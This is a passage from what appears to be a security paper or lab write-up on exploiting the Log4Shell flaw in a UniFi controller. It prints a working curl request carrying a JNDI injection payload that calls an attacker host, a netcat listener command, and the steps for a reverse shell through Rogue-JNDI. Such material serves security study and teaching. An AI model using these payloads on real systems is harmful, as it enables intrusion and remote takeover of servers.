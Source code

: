 \begin{lstlisting}[caption=Issuing Malicious POST Request.,numbers=none,label={lst:unifi_malicious_post_request}]
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.152.0.2:9999/whatever}","strict":true}'
\end{lstlisting}

As we get a connection to port 9999 from the vulnerable Log4j container, the web application is indeed vulnerable to the exploit. Notice \texttt{172.152.0.2} is the attacker machine's IP address. The next step is to use the Rogue-JNDI GitHub tool\footnote{\url{https://github.com/veracode-research/rogue-jndi}} to obtain a reverse shell on the target. Essentially, this tool sets up a malicious LDAP and HTTP server for JNDI injection attacks. When the tool first receives a connection from the vulnerable client to connect to the local LDAP server, it responds with a malicious entry containing a payload that will be useful to achieve a Remote Code Execution. The steps to build upon this foundation are to stage an LDAP Referral Server that will redirect the initial client request of the victim to an HTTP server where a secondary payload is hosted that will eventually run code on the target. 

The procedures to set up the exploit include first using \texttt{netcat} to listen for inbound connections on port 4444 with the command \texttt{nc -lnvp 4444} and then following the steps of Listing \ref{lst:unifi_clone_rogue_jndi}:

\begin{enumerate}
    \item Clone the Rogue JNDI tool and build the project into a JAR file using Maven.
    \item Generate the Base64 payload that will run in the victim's server. It connects to the attacker machine on port 4444, redirecting both the standard input and standard output to the remote machine so the attacker can have complete control over the victim.
    \item Running Rogue JNDI tool to create malicious LDAP and HTTP server with the command that will trigger a reverse shell.
    \item Issue cURL command with malicious JNDI query and run the exploit.
\end{enumerate}

